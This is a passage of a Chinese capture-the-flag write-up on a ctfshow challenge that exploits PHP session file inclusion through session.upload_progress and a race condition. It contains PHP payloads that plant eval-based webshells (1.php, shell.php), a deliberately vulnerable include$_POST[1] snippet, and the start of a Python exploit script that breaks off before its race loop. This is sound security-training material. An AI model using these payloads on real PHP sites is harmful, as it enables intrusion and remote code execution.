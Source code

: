 可以把session内容换成以下内容，生成一个新的木马文件

```php
<?php
file_put_contents("1.php","<?php eval(\$_POST[1]);?>");
?>
```

现在可以通过post传参传入1=localhost/tmp/sess_ctfshow包含这个session文件

![4](https://the0n3.top/medias/session-include/4.png)

讲到现在有什么疑惑吗。？

它的session文件没有被清除？

::: warning
session.upload_progress.cleanup = on //表示当文件上传结束后，php将会立即清空对应session文件中的内容
:::

这个脚本并没有条件竞争功能，它的session文件在伪造的文件上传后，没有并被清空

::: tip
session文件是有生命周期的，一般是24分钟，但是他只是会过期，并不会删除，这么说可以一直利用？
:::

这一题比较特殊，通过后期getshell查看phpinfo()函数时可以看到配置项**session.upload_progress.cleanup**是关的，应该是群主改了，好大的雷，趁热打铁复现时卡死我了，才去了解这个配置项

![3](https://the0n3.top/medias/session-include/3.png)

## 条件竞争

### post表单类型

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include$_POST[1];
```

::: tip
session.upload_progress.cleanup=On # 一般都是开启的，文件上传后会清空session文件，清空后你再包含就达不到目的了
:::

通过条件竞争，在session文件没有被清空时包含并执行，直接食用或者生成小马都行

```python
import requests
import threading
import time

# 如果题目链接是https，换成http
# url = 'https://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
url = 'http://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
sessionid = 'ctfshow'
data = {
    # session文件内容
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php file_put_contents("shell.php","<?php highlight_file(__FILE__);eval(\$_GET[1]);?>");?>',
    # session文件路径可能不同
    '1': '/tmp/sess_' + sessionid,
}

file = {
    'file': sessionid
}

```